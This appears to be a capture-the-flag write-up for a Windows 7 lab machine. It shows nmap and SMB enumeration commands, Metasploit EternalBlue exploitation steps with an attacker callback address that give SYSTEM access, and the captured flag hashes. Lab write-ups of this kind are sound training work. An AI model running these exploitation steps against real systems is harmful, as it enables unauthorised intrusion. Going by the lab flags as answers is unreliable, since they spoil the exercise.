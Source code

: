 #eternal-blue #smb #windows7
#### Nmap

```bash
sudo nmap -A -p- 10.10.10.40 
```

![Pasted image 20240401113929](Pasted%20image%2020240401113929.png)
![Pasted image 20240401114006](Pasted%20image%2020240401114006.png)
#### Port 445 (SMB)

```bash
smbclient --no-pass -L //10.10.10.40
```

![Pasted image 20240401121720](Pasted%20image%2020240401121720.png)

```bash
sudo nmap --script smb-* -p 445 10.10.10.40
```

![Pasted image 20240401123227](Pasted%20image%2020240401123227.png)

```bash
sudo nmap --script smb-protocols -p 445 10.10.10.40
```

![Pasted image 20240401123924](Pasted%20image%2020240401123924.png)

>[!success] Victim appears vulnerable to the EternalBlue exploit.
### Local Exploit
#### Metasploit

```bash
msfconsole -q
search eternal
use 1
```

![Pasted image 20240401125829](Pasted%20image%2020240401125829.png)

```bash
options
set RHOSTS 10.10.10.40
set LHOST 10.10.14.12
run
```

![Pasted image 20240401125854](Pasted%20image%2020240401125854.png)

>[!success] user.txt
>`dc32b7bfefa8ae6f1d1fc594c9133e80`
>
![Pasted image 20240401130008](Pasted%20image%2020240401130008.png)

>[!success] root.txt
>We were `nt authority\system` so could also access the Administrator's desktop.
>`aac84c29ac1b9a3b466c54e780ca8b93`
>
>![Pasted image 20240403043445](Pasted%20image%2020240403043445.png)
#### Manual

https://github.com/worawit/MS17-010